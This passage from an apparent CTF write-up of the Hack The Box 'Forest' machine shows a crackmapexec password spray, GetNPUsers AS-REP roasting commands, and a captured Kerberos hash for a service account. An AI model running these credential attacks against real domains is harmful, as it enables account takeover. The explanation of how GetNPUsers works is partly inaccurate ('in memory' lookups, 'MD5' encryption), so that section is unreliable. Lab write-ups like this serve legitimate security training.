 And decided to run a password spray. I booted up crackmap `crackmapexec smb 10.10.10.161 -u users.txt -p /usr/share/wordlists/rockyou.txt`. This command is loading the tool, tuning it for SMB, at our target IP, use our list of users and use rockyou.txt as our password list. Quite a bit of time passed, and I figured that there'd be a quicker way. So while my tool ran, I looked around the net for some other tools I could use.

Eventually, I came across GetNPUsers. This is a common CTF tool that is used to retrieve password hashes and usernames from Kerberos/AD.

## GetNPUsers

I mucked around with commands and finally got it work correctly with the last on this list:
```
(fail)python3 GetNPUsers.py 10.10.10.161
(fail)python3 GetNPUsers.py forest.htb.local/ -dc-ip 10.10.10.161
(fail)python3 GetNPUsers.py forest.local/ -dc-ip 10.10.10.161
(win)python3 GetNPUsers.py htb.local/ -dc-ip 10.10.10.161
```
We get the output:
```
Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2022-08-04 05:32:14.999391  2022-08-04 05:32:55.796298  0x410200 
```
Now that I know that I can use this tool against the target AND there's a username called 'svc-alfresco', I just add the '-request' flag and finally get a username and hash:
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:812cfb5454107edd34d5d8ef2023d2ae$5ca1cb5ff5f2f0ccb73b93d0ea0581fce80538e16266df11b
1e0686bc63fc37ea3a84bd6348d33dc100704708aebb0b9bc561ceeec36f5048506032280e9246be125a386e781efde7bd00a6b79c1f4ae9ef344b8
2aeb84df54fe5f4194705e7dc1af27c005ef4bcf31a1b1eb92c08dac777cfe5f2d17a2f786ddd5444ba71672d5ca0e4e97a9fa493fafd4dbf1c0653
dfed65b007d1669e2be3ddef5d918af3cc12eb497dea9c630d6ae0ed6db2e25c83dcfc3fe42f3240cbce0180cf3486c2eb2de2f844879ff247497ec
5fa9d54ece0a9e244d2a32f2b2e72c5bbf2e2c1ee33e75277eec16
```

## How GetNPUsers Works
After running the command above, I retrieved this hash+username. The hash doesn't *actually* contain a password, however it's a value that has been encrypted *with* the users password. To decode this hash, a small segment of it is decoded with a supplied wordlist. That part of the hash is always the same, so if there's a match that means the password is correct.

When searching for vulnerable usernames, the script creates a kerberos request (AS-REQ) for the server, asking for a username of an account that does not have "Require Preauth" enabled in AD. This value is stored in a single location in memory, so the script is able to perform a bitwise and query for this specific address to retrieve the information.

Upon successfully locating an account that matches the query, the request also asks for the response to be encoded in an MD5 hash. Normally kerberos will us a much more secure encryption method, but this can be overwritten by simply requesting it to be encoded as MD5.

